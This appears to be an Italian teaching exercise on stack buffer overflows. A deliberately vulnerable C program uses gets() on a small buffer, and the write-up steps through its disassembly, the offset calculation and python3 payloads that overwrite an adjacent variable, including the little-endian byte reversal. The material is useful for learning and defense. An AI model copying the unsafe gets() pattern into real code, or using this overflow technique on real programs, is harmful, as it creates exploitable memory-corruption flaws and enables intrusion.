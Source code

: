 # Esercizio 2

## Codice C di Riferimento

```c
#include <stdio.h>

int main(int argc, char* argv[]){
    int pluto;
    char buf[27];

    pluto = 0;
    gets(buf);

    if (pluto == 0x414243){
        printf("Ottimo! Hai modificato correttamente la variabile\n");
    }
    else{
        printf("Sbagliato! Pluto vale: 0x%08x\n", pluto);
    }
}
```

## Analisi Assembly

Un possibile disassemblaggio può mostrare:

```
0x0804846b <+0>:  lea 0x4(%esp),%ecx
0x0804846f <+4>:  and $0xfffffff0,%esp
0x08048472 <+7>:  pushl -0x4(%ecx)
0x08048475 <+10>: push %ebp
0x08048476 <+11>: mov %esp,%ebp
-> 0x08048478 <+13>: push %ecx
-> 0x08048479 <+14>: sub $0x24,%esp
-> 0x0804847c <+17>: movl $0x0,-0xc(%ebp)
-> 0x08048483 <+24>: sub $0xc,%esp
-> 0x08048486 <+27>: lea -0x27(%ebp),%eax
0x08048489 <+30>: push %eax
0x0804848a <+31>: call 0x8048330 <gets@plt>
0x0804848f <+36>: add $0x10,%esp
-> 0x08048492 <+39>: cmpl $0x414243,-0xc(%ebp)
0x08048499 <+46>: jne 0x80484ad <main+66>
0x0804849b <+48>: sub $0xc,%esp
0x0804849e <+51>: push $0x8048550
0x080484a3 <+56>: call 0x8048340 <puts@plt>
0x080484a8 <+61>: add $0x10,%esp
0x080484ab <+64>: jmp 0x80484c0 <main+85>
0x080484ad <+66>: sub $0x8,%esp
0x080484b0 <+69>: pushl -0xc(%ebp)
0x080484b3 <+72>: push $0x8048584
0x080484b8 <+77>: call 0x8048320 <printf@plt>
0x080484bd <+82>: add $0x10,%esp
0x080484c0 <+85>: mov $0x0,%eax
0x080484c5 <+90>: mov -0x4(%ebp),%ecx
0x080484c8 <+93>: leave
0x080484c9 <+94>: lea -0x4(%ecx),%esp
0x080484cc <+97>: ret
```

### Allocazione nello Stack

- `pluto` si trova a `-0xc(%ebp)`
- Il buffer `buf` inizia a `-0x27(%ebp)`

Calcoliamo la distanza:

```
0x27 - 0xc = 0x1b (27 in decimale)
```

Serve scrivere 27 byte prima di sovrascrivere `pluto`.

### Confronto con 0x414243

A riga <+39>, viene eseguito:

```
cmp 0x414243, -0xc(%ebp)
```

`0x414243` in ASCII è `ABC`.

Se forziamo:
```bash
python3 -c 'print("A"*27 + "ABC")' | ./esercizio2
```

Output:
```
Sbagliato! Pluto vale: 0x00434241
```

A causa della **little endian** (Intel x86), i byte `ABC` vengono memorizzati come `CBA`. Quindi, effettivamente `pluto` = `0x00434241`.

### Soluzione: Inserire `CBA`

Per settare `pluto = 0x414243`, dobbiamo inserire `CBA (0x434241)` nel payload:

```bash
python3 -c 'print("A"*27 + "CBA")' | ./esercizio2
```
O, analogamente:

```bash
python3 -c 'print("A"*27 + "\x43\x42\x41")' | ./esercizio2
```

Output:
```
Ottimo! Hai modificato correttamente la variabile
```

Questo dimostra che per impostare un valore esadecimale specifico in un ambiente little endian, bisogna invertire l'ordine dei byte.


